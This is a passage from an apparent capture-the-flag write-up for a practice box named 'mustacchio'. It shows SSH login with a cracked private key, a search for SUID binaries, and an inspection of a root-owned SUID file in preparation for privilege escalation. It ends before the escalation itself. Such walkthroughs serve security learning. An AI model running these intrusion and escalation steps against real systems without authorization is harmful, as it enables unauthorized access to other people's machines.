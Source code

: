 With the password cracked, I could then use the key to connect to the server.

```bash
$ ssh barry@target -i id_rsa 
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-210-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

34 packages can be updated.
16 of these updates are security updates.
To see these additional updates run: apt list --upgradable



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

barry@mustacchio:~$ 
```

## Getting Root

I already had the user flag, so I tried to escalate to root. 

I looked for files with [SUID](https://tryhackme.com/resources/blog/linux-privilege-escalation-suid) set. 

```bash
barry@mustacchio:~$ find / -perm /u=s 2>/dev/null 
...
/usr/bin/sudo
/usr/bin/newuidmap
/usr/bin/gpasswd
/home/joe/live_log
/bin/ping
/bin/ping6
...
```

The `live_log` file in joe's home folder looked interesting. 

```bash
barry@mustacchio:~$ ls -la /home/joe/live_log 
-rwsr-xr-x 1 root root 16832 Jun 12 15:48 /home/joe/live_log


barry@mustacchio:~$ strings /home/joe/live_log
/lib64/ld-linux-x86-64.so.2
libc.so.6            
setuid        
printf                                
system            
__cxa_finalize                
setgid   
GLIBC_2.2.5         
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
```